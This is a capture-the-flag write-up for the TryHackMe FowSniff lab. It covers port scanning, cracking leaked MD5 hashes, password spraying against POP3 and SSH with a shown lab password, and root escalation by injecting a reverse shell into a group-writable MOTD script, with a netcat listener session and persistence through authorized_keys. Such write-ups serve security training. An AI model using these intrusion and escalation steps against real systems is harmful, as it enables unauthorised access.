


# Write Up for Try Hack Me box - [FowSniff CTF](https://tryhackme.com/room/ctf)

This box has a brute force ssh login.\
We can priv esc through the MOTD path. 

> Pratyush Prakhar (5#1NC#4N) - 02/16/2024


## RECONNAISSANCE

1. Scan the box with rustscan. Here is the [main scan file](rustscan/main.nmap).
	1. Here is the dir to all the [other results](rustscan).

**Results**

```bash
# Nmap 7.94SVN scan initiated Sun Feb 18 15:07:05 2024 as: nmap -vvv -p 143,110,80,22 -sC -sV -oN rustscan/main.nmap 10.10.101.18
Nmap scan report for 10.10.101.18
Host is up, received syn-ack (0.21s latency).
Scanned at 2024-02-18 15:07:05 EST for 16s

PORT    STATE SERVICE REASON  VERSION
22/tcp  open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 90:35:66:f4:c6:d2:95:12:1b:e8:cd:de:aa:4e:03:23 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCsEu5DAulaUX38ePQyI/MzevdyvWR3AXyrddVqbu9exD/jVVKZopquTfkbNwS5ZkADUvggwHnjZiLdOZO378azuUfSp5geR9WQMeKR9xJe8swjKINBtwttFgP2GrG+7IO+WWpxBSGa8akgmLDPZHs2XXd6MXY9swqfjN9+eoLX8FKYVGmf5BKfRcg4ZHW8rQZAZwiMDqQLYechzRPnePiGCav99v0X5B8ehNCCuRTQkm9DhkAcxVBlkXKq1XuFgUBF9y+mVoa0tgtiPYC3lTOBgKuwVZwFMSGoQStiw4n7Dupa6NmBrLUMKTX1oYwmN0wnYVH2oDvwB3Y4n826Iymh
|   256 53:9d:23:67:34:cf:0a:d5:5a:9a:11:74:bd:fd:de:71 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPowlRdlwndVdJLnQjxm5YLEUTZZfjfZO7TCW1AaiEjkmNQPGf1o1+iKwQJOZ6rUUJglqG8h3UwddXw75eUx5WA=
|   256 a2:8f:db:ae:9e:3d:c9:e6:a9:ca:03:b1:d7:1b:66:83 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHU5PslBhG8yY6H4dpum8qgwUn6wE3Yrojnu4I5q0eTd
80/tcp  open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Fowsniff Corp - Delivering Solutions
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
110/tcp open  pop3    syn-ack Dovecot pop3d
|_pop3-capabilities: UIDL CAPA USER AUTH-RESP-CODE SASL(PLAIN) PIPELINING RESP-CODES TOP
143/tcp open  imap    syn-ack Dovecot imapd
|_imap-capabilities: ID listed AUTH=PLAINA0001 more LITERAL+ LOGIN-REFERRALS have IMAP4rev1 capabilities IDLE SASL-IR post-login Pre-login OK ENABLE
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

2. There are **3 TCP** ports open. 
	1. *Port 22* - SSH - **OpenSSH 7.2p2**
	2. *Port 80* - HTTP - **Apache httpd 2.4.18**
	3. *Port 110* - POP - **Dovecot pop3d**
	4. *Port 143* - IMAP - **Dovecot imapd**

3. Let's actively enumerate them all.

## WEB

1. Let's first check out the web server on port 80. 
	\
	
	1. We get a default page with no links going out.
	2. We do get some information to follow. Check out the [Twitter account](https://twitter.com/fowsniffcorp?lang=en).
	3. We get the leaked data from the [breach](web/fowsniff.txt). It's a gift from the attackers.
	4. We separate out the useful [creds](web/dump.txt).

2. We can now decrypt the possible MD5 passwords - [results](web/cracked.txt). We can use them to spray against the other services - SSH,POP

3. The [gobuster output](web/gobust.out) reveals another location as `secrets.txt`. This also points to the same hack.
\


# POP,IMAP

1. We try to spray the earlier found creds against the service using hydra. We found a [match](mail/pop_pass.txt). 

2. We can now use these creds to get in using either `telnet` or `nc`.

```bash
└─$ nc 10.10.101.18 110                                               
+OK Welcome to the Fowsniff Corporate Mail Server!
USER seina@fowsniff
+OK
PASS scoobydoo2
-ERR [AUTH] Authentication failed.
USER seina
+OK
PASS scoobydoo2
+OK Logged in.
LIST    
+OK 2 messages:
1 1622
2 1280
retr 1
+OK 1622 octets
Return-Path: <stone@fowsniff>
X-Original-To: seina@fowsniff
Delivered-To: seina@fowsniff
Received: by fowsniff (Postfix, from userid 1000)
        id 0FA3916A; Tue, 13 Mar 2018 14:51:07 -0400 (EDT)
To: baksteen@fowsniff, mauer@fowsniff, mursten@fowsniff,
    mustikka@fowsniff, parede@fowsniff, sciana@fowsniff, seina@fowsniff,
    tegel@fowsniff
Subject: URGENT! Security EVENT!
Message-Id: <20180313185107.0FA3916A@fowsniff>
Date: Tue, 13 Mar 2018 14:51:07 -0400 (EDT)
From: stone@fowsniff (stone)

Dear All,
............................
```

3. We found two inbox mails for the user. We can now retrieve them [both](mail) to get some other useful information.
	1. [mail1](mail/mail1.txt) - temporary password set after breach. can be the same for some user with weak password practices.-
	2. [mail2](mail/mail2.txt) - some other users added to the possible list.


## INITIAL ACCESS - SSH

1. We throw the possible [users](users.txt) and [passwords](pass.txt) list at the SSH. We get a [match](ssh/ssh_pass.txt) as `baksteen` user.

2. We can now explore around and find a way to escalate to the root.

# PRIV ESC

1. We see going around and through the [linpeas search](ssh/tmp/linpeas.out) that we have an escalation through an _indirect file inclusion with group permissions_.
	1. The user belongs to the group `users`.
	2. The group also owns an odd file `/opt/cube/cube.sh` which looks very like the SSH MOTD banner.
	3. We also now find in the `update-motd.d` folder that we can manipulate *00-header* as it includes the above file. For reference use this [article](https://security.stackexchange.com/questions/234859/inject-update-motd-d-00-header-to-run-a-script-on-ssh-login).

```bash
aksteen@fowsniff:~$ ls
Maildir  term.txt
baksteen@fowsniff:~$ groups
users baksteen
baksteen@fowsniff:~$ find / -group users -type f 2>/dev/null 
/tmp/linpeas.sh
/tmp/linpeas.out
/opt/cube/cube.sh
/home/baksteen/.cache/motd.legal-displayed
/home/baksteen/Maildir/dovecot-uidvalidity
/home/baksteen/Maildir/dovecot.index.log
/home/baksteen/Maildir/new/1520967067.V801I23764M196461.fowsniff
/home/baksteen/Maildir/dovecot-uidlist
/home/baksteen/Maildir/dovecot-uidvalidity.5aa21fac
.......................................................
baksteen@fowsniff:~$ ls -la /opt/cube/cube.sh 
-rw-rwxr-- 1 parede users 851 Mar 11  2018 /opt/cube/cube.sh
baksteen@fowsniff:~$ cat /opt/cube/cube.sh
printf "
                            _____                       _  __  __  
      :sdddddddddddddddy+  |  ___|____      _____ _ __ (_)/ _|/ _|  
   :yNMMMMMMMMMMMMMNmhsso  | |_ / _ \ \ /\ / / __| '_ \| | |_| |_   
.sdmmmmmNmmmmmmmNdyssssso  |  _| (_) \ V  V /\__ \ | | | |  _|  _|  
-:      y.      dssssssso  |_|  \___/ \_/\_/ |___/_| |_|_|_| |_|   
-:      y.      dssssssso                ____                      
-:      y.      dssssssso               / ___|___  _ __ _ __        
-:      y.      dssssssso              | |   / _ \| '__| '_ \     
-:      o.      dssssssso              | |__| (_) | |  | |_) |  _  
-:      o.      yssssssso               \____\___/|_|  | .__/  (_) 
-:    .+mdddddddmyyyyyhy:                              |_|        
-: -odMMMMMMMMMMmhhdy/.    
.ohdddddddddddddho:                  Delivering Solutions\n\n"

baksteen@fowsniff:~$ ls -la /etc/update-motd.d/
total 24
drwxr-xr-x  2 root root 4096 Mar 11  2018 .
drwxr-xr-x 87 root root 4096 Dec  9  2018 ..
-rwxr-xr-x  1 root root 1248 Mar 11  2018 00-header
-rwxr-xr-x  1 root root 1473 Mar  9  2018 10-help-text
-rwxr-xr-x  1 root root  299 Jul 22  2016 91-release-upgrade
-rwxr-xr-x  1 root root  604 Nov  5  2017 99-esm
baksteen@fowsniff:~$ cat /etc/update-motd.d/00-header 
#!/bin/sh
#
#    00-header - create the header of the MOTD
#    Copyright (C) 2009-2010 Canonical Ltd.
#
#    Authors: Dustin Kirkland <kirkland@canonical.com>
#
#    This program is free software; you can redistribute it and/or modify
#    it under the terms of the GNU General Public License as published by
#    the Free Software Foundation; either version 2 of the License, or
#    (at your option) any later version.
#
#    This program is distributed in the hope that it will be useful,
#    but WITHOUT ANY WARRANTY; without even the implied warranty of
#    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
#    GNU General Public License for more details.
#
#    You should have received a copy of the GNU General Public License along
#    with this program; if not, write to the Free Software Foundation, Inc.,
#    51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.

#[ -r /etc/lsb-release ] && . /etc/lsb-release

#if [ -z "$DISTRIB_DESCRIPTION" ] && [ -x /usr/bin/lsb_release ]; then
#       # Fall back to using the very slow lsb_release utility
#       DISTRIB_DESCRIPTION=$(lsb_release -s -d)
#fi

#printf "Welcome to %s (%s %s %s)\n" "$DISTRIB_DESCRIPTION" "$(uname -o)" "$(uname -r)" "$(uname -m)"

sh /opt/cube/cube.sh
```

2. Let's add a basic reverse shell to us and try to invoke the MOTD through a third connection call. 

3. And that is how we can get the in as `root` and pwn the box.

```bash
# whoami
whoami
root
# which python3
which python3
/usr/bin/python3
# python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
root@fowsniff:/# ^Z
zsh: suspended  nc -lnvvp 1337
                                                                                                        
┌──(kali㉿kali)-[~/…/Easy/Fowsniff CTF/ssh/tmp]
└─$ stty raw -echo; fg

[1]  + continued  nc -lnvvp 1337

root@fowsniff:/# export TERM=xterm-256color
root@fowsniff:/root# cat flag.txt 
   ___                        _        _      _   _             _ 
  / __|___ _ _  __ _ _ _ __ _| |_ _  _| |__ _| |_(_)___ _ _  __| |
 | (__/ _ \ ' \/ _` | '_/ _` |  _| || | / _` |  _| / _ \ ' \(_-<_|
  \___\___/_||_\__, |_| \__,_|\__|\_,_|_\__,_|\__|_\___/_||_/__(_)
               |___/ 

 (_)
  |--------------
  |&&&&&&&&&&&&&&|
  |    R O O T   |
  |    F L A G   |
  |&&&&&&&&&&&&&&|
  |--------------
  |
  |
  |
  |
  |
  |
 ---

Nice work!

This CTF was built with love in every byte by @berzerk0 on Twitter.

Special thanks to psf, @nbulischeck and the whole Fofao Team.

root@fowsniff:/root# 
```

## EXTRA TREATS

1. We can go around to add our [own public key](ssh/root/fs.pub) to be trusted by the `~/.ssh/authorized_keys` folder.

2. We can then do some important digging and look out for important files. Can be found [here](ssh/etc).

3. Happy hunting for other ways.


**Stay Tuned On**\
[Github](https://github.com/pratty010/Boxes)\
[LinkedIn](https://www.linkedin.com/in/pratyush-prakhar/)